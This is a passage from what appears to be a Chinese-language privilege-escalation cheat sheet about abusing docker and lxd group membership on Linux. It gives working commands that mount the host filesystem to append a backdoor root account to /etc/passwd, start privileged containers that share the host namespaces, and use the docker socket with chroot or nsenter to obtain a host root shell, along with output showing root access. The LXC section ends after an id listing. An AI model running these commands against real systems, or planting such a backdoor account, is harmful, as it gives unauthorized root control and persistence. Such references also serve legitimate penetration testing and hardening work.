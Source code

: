 ## 组

### Docker

在bash容器中挂载文件系统，允许您以root身份编辑`/etc/passwd`，然后添加后门账户`toor:password`。

```bash
$> docker run -it --rm -v $PWD:/mnt bash
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

几乎类似，但您还将看到主机上运行的所有进程，并连接到相同的NIC。

```powershell
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

或者使用以下来自[chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/)的docker镜像来生成一个root shell

```powershell
$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

您现在应该在主机操作系统上拥有一个root shell
按Ctrl-D退出docker实例/shell

sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
```

更多使用Docker套接字进行Docker权限提升的方法。

```powershell
sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

### LXC/LXD

权限提升需要以提升的特权运行容器并在内部挂载主机文件系统。

```powershell
╭─swissky@lab ~  
╰─$ id
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)
```
